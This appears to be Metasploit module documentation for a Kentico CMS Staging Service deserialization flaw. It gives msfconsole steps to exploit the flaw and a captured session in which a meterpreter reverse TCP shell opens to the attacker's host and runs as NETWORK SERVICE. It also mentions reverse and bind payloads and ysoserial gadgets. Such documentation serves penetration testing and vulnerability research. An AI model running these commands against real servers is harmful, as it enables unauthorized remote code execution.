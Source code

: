 ## Vulnerable Application

[Kentico CMS](www.kentico.com) CMS platform versions 12.0.14 and earlier are
affected by an unauthenticated deserialization vulnerability in the Staging
Service which can be leveraged by an attacker to execute arbitrary commands in
the context of the target server process (usually either `NT AUTHORITY\NETWORK
SERVICE` or `NT AUTHORITY\SYSTEM`). The vulnerability is triggered
by sending a HTTP POST request to the SyncServer.asmx interface
`ProcessSynchronizationTaskData` method `stagingTaskData` parameter request path
in HTTP GET requests sent to the built-in web server. This module has been
tested successfully on Windows 10 using exec and adduser payloads against
Kentico v11.

The vulnerable application is available for download at:

  * https://d82ujmuzqhypi.cloudfront.net/Kentico_11_0_trial.exe
  * https://d82ujmuzqhypi.cloudfront.net/Kentico_12_0_trial.exe
  * https://www.kentico.com/download-demo

## Verification Steps
  1. Install a vulnerable Kentico CMS Trial version.
  2. Access web instance admin interface at /admin/
  3. Default credentials are 'administrator' with blank password.
  4. Navigate to `Settings`, then expand `Settings` > `Versioning & Synchronization` > `Staging`
  5. Check `Enable Staging Service` and click `Save`
  6. Start `msfconsole`
  7. Do `use exploit/windows/http/kentico_staging_syncserver`
  8. Do `set RHOSTS ip` (Trial is limited to 127.0.0.1 remote HTTP clients, but paid versions are public websites)
  9. Do `set RPORT port` (installs with a random port within IISExpress for at least Trial versions)
  10. Do `check`
  11. Verify the target is detected
  12. Do `set PAYLOAD cmd/windows/generic`
  13. Do `set CMD calc`
  14. Do `exploit`
  15. Verify `calc.exe` launches. 

## Scenarios

### Kentico CMS v11.0 trial on Windows 7 SP 1 x64

```
msf exploit(windows/http/kentico_staging_syncserver) > show options 

Module options (exploit/windows/http/kentico_staging_syncserver):

   Name       Current Setting                              Required  Description
   ----       ---------------                              --------  -----------
   Proxies                                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.31                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                           yes       The target port (TCP)
   SRVHOST    0.0.0.0                                      yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080                                         yes       The local port to listen on.
   SSL        false                                        no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                                 no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /Kentico11/CMSPages/Staging/SyncServer.asmx  yes       Path to SyncServer.asmx
   URIPATH                                                 no        The URI to use for this exploit (default is random)
   VHOST      localhost                                    no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows EXE Dropper


msf exploit(windows/http/kentico_staging_syncserver) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Command Stager progress -  24.99% done (2999/12002 bytes)
[*] Command Stager progress -  49.98% done (5998/12002 bytes)
[*] Command Stager progress -  74.96% done (8997/12002 bytes)
[*] Sending stage (201283 bytes) to 192.168.159.31
[*] Command Stager progress -  99.83% done (11982/12002 bytes)
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.31:51599) at 2020-05-04 09:51:29 -0400
[*] Command Stager progress - 100.00% done (12002/12002 bytes)

meterpreter > sysinfo
Computer        : WIN-9NSI4A6AIHJ
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter >
```

## Notes

  1. The IISExpress config is located in ~/Documents/IISExpress/config/applicationhost.config
  2. Port number can be changed or allow remote access by replacing 'localhost' with '*'
  3. To run IIS on command line, C:\PROGRA~1\IIS Express\iisexpress.exe /site:Kentico11 (etc)
  4. It might be possible to use a CmdStager or FileDropper but couldn't get it working in time. Might be a string limit and has issues with Unicode.
  5. Some reverse or bind payloads work if the environment is right.
  6. Other serialized injections are possible with `ysoserial.exe -f SoapFormatter` but untested.
